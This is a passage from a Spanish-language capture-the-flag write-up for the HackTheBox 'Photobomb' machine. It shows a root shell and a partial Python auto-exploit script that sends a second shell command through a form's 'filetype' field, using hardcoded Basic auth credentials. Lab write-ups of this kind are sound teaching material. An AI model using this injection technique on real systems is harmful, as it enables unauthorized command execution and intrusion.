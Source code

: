 ```console
root
bash-5.0# find / -name root.txt | xargs ls -l
-rw-r----- 1 root root 33 Nov  3 05:54 /root/root.txt
```

Para finalizar hice un script en `python` para automatizar todo el proceso y conseguir la shell como `root`:

```python
#!/usr/bin/env python3

"""
Autopwn Photobomb HTB
---------------------
Author : Marss
Date : 01 Nov, 2022
"""

import argparse
import requests
import signal
import sys
import shlex
import subprocess

from pwn import *


# Ctrl + c (function)
def signal_handler(signum, frame): sys.exit('\n[!] User terminated.')

# Ctrl + c (signal)
signal.signal(signal.SIGINT, signal_handler)


# Main class
class Exploit:
	def __init__(self, args):
		self.target_url = { '10.10.14.182' : 'http://photobomb.htb' }
		self.ip_address = args.ip
		self.port = args.port

	def make_request(self, command):
		try:
			headers = {
				'Authorization' : 'Basic cEgwdDA6YjBNYiE=',
				'Content-Type' : 'application/x-www-form-urlencoded'
			}

			form_data = {
				'photo' : 'eleanor-brooke-w-TLY0Ym4rM-unsplash.jpg',
				'filetype' : f'jpg;{command}',
				'dimensions' : '3000x2000'
			}
			
			response = requests.post(self.target_url['10.10.14.182'] + '/printer', headers=headers, data=form_data)
			
		except Exception as error:
			sys.exit("[x] Error: %s" % error)

	def command_inyection(self, command):
			self.make_request(command)

```